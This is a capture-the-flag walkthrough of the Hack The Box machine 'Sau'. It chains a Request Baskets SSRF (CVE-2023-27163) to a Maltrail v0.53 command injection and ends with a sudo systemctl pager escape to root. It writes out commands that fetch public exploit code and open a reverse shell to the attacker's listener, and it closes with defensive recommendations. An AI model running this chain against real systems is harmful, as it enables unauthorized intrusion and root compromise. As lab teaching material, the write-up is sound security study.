# HTB - Sau

**IP Address:** `10.129.229.26`  
**OS:** Linux (Ubuntu; OpenSSH `8.2p1 Ubuntu 4ubuntu0.7`)  
**Difficulty:** Easy  
**Tags:** #linux #web #ssrf #maltrail #sudo #systemd

---
## Synopsis

Sau exposes **SSH** and **HTTP** on a high port (**55555/tcp**) running **Request Baskets v1.2.1**. The basket **`forward_url`** feature enables **CVE-2023-27163**, letting you bounce HTTP through the server toward **`127.0.0.1`** and surface **Maltrail v0.53**, which was exploited with a **public PoC** to obtain a shell as **`puma`**. Privilege escalation reused **`NOPASSWD: /usr/bin/systemctl status trail.service`**, invoking **`systemctl status`** under **`systemd 245`** and breaking out of the pager with **`!/bin/bash`** (**CVE-2023-26604** class behavior).

---
## Skills Required

- TCP enumeration with **nmap** (full-range plus targeted `-sCV`)
- Basic HTTP recon (**curl**, **whatweb**) and reading application JS/HTML for API hints
- Understanding **SSRF** via reverse proxies / “forward URL” features

## Skills Learned

- Exploiting **Request Baskets ≤ 1.2.1** SSRF (**CVE-2023-27163**) with **`proxy_response`** + **`expand_path`**
- Chaining SSRF into an internal-only web app (**Maltrail**) and using a **Python exploit** against the **`/login`** path through the basket URL
- Abusing **`systemctl status`** + pager escape under vulnerable **systemd** generations combined with overly broad **sudoers**

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.229.26
```


---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.229.26 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,55555 10.129.229.26 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22/tcp | ssh | OpenSSH `8.2p1 Ubuntu 4ubuntu0.7` |
| 55555/tcp | http | Go **`net/http`**; title **Request Baskets**; redirects toward **`/web`** |

---
## 2. Service Enumeration

### 2.1 HTTP fingerprint on TCP 55555 (Request Baskets)

The targeted scan shows an unusual Go HTTP stack and a **`302`** toward **`/web`**. Confirm technologies and manually capture the product/version markers shown in the UI and HTML source.

```bash
whatweb http://10.129.229.26:55555/
```



The **`/web`** surface exposes basket creation flows over **`POST /api/baskets/<name>`** (visible in page scripts). The footer identifies **request-baskets v1.2.1**.



---
### 2.2 SSRF proof toward an attacker-controlled listener (CVE-2023-27163)

**Request Baskets ≤ 1.2.1** can be abused so a basket **`forward_url`** is fetched server-side when the basket collector URL is requested (**CVE-2023-27163**). Prove SSRF using the public bash helper while listening locally.

Use the Request Baskets **site root** as argument **`$1`** (**`http://<target>:55555/`**), **not** **`/web`**, so **`POST /api/baskets/...`** resolves correctly.

```bash
wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh
chmod +x CVE-2023-27163.sh

nc -lvnp 8000
# separate terminal:
./CVE-2023-27163.sh 'http://10.129.229.26:55555/' 'http://10.10.15.206:8000/'
curl -i 'http://10.129.229.26:55555/<basket_from_script_output>'
```



---
### 2.3 Pivot `forward_url` to localhost (Maltrail discovery)

After SSRF is confirmed, repoint **`forward_url`** to **`http://127.0.0.1/`** (still with **`proxy_response`** enabled by the helper script) so the basket proxies responses from services bound only on loopback.

```bash
./CVE-2023-27163.sh 'http://10.129.229.26:55555/' 'http://127.0.0.1/'
curl -i 'http://10.129.229.26:55555/sevwog'
```



The proxied response exposes **`Server: Maltrail/0.53`** and HTML referencing **Maltrail v0.53**.



Loading the basket URL in a browser shows the dashboard chrome (static assets may load inconsistently through the proxy).



---
## 3. Foothold

### 3.1 Exploit Maltrail through the SSRF basket URL

The SSRF basket proxies your HTTP client to **Maltrail v0.53** on the victim’s loopback. That release line is affected by an **unauthenticated OS command injection** reachable through the web UI (notably the **`/login`** flow), which public tooling turns into **RCE**. This solve uses **[spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)** (`exploit.py`): clone that repository on your attack box, point the script at the **basket URL** so every path (including **`/login`**) is fetched **through Request Baskets** toward Maltrail—**`http://10.129.229.26:55555/sevwog`** as the base, **not** raw **`http://127.0.0.1/`** from your host. Start a listener on the **LHOST/LPORT** you pass to the script, run **`python3 exploit.py`**, then catch the reverse shell.

```bash
git clone https://github.com/spookier/Maltrail-v0.53-Exploit
cd Maltrail-v0.53-Exploit
nc -lvnp 443
python3 exploit.py 10.10.15.206 443 http://10.129.229.26:55555/sevwog
```



🏁 **User flag obtained**

Recovered:

- User **`puma`**
- **`user.txt`**: `025e7f1f4948ca3d163dac8e96c289c7`

---
## 4. Privilege Escalation

### 4.1 `sudo systemctl status` pager escape on systemd 245 (CVE-2023-26604)

On-box **`sudo -l`** shows **`NOPASSWD`** execution of **`/usr/bin/systemctl status trail.service`**. **`systemctl --version`** reports **`systemd 245`**. Running **`sudo systemctl status`** invokes a pager (**less**) where **`!/bin/bash`** spawns a shell with the pager’s privileges (**root**).

```bash
sudo -l
systemctl --version
sudo /usr/bin/systemctl status trail.service
# inside pager:
!/bin/bash
whoami
cat /root/root.txt
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Mapped **22/tcp** (**SSH**) and **55555/tcp** (**Request Baskets / Go HTTP**).
2. Identified **request-baskets v1.2.1** and leveraged **CVE-2023-27163** (**SSRF**) via **`forward_url`** + **`proxy_response`**.
3. Proxied **`http://127.0.0.1/`** through a basket collector URL and discovered **Maltrail v0.53**.
4. Ran **`Maltrail-v0.53-Exploit`** against **`…/sevwog/login`** through the basket URL for **RCE** as **`puma`**.
5. Escalated via **`sudo systemctl status trail.service`** + less breakout aligned with **CVE-2023-26604** on **systemd 245**.

---
## Defensive Recommendations

- Patch or isolate **Request Baskets** behind auth; upgrade past vulnerable builds and disable risky basket forwarding toward internal networks without strict allowlists.
- Keep internal apps like **Maltrail** bound appropriately (firewall/socket ACLs), patched, and not reachable blindly from companion services.
- Avoid **`NOPASSWD`** **systemctl** commands for low-privilege service accounts; constrain **`SYSTEMD_LESS`** / pager behavior or upgrade **systemd** per vendor guidance for **CVE-2023-26604**.
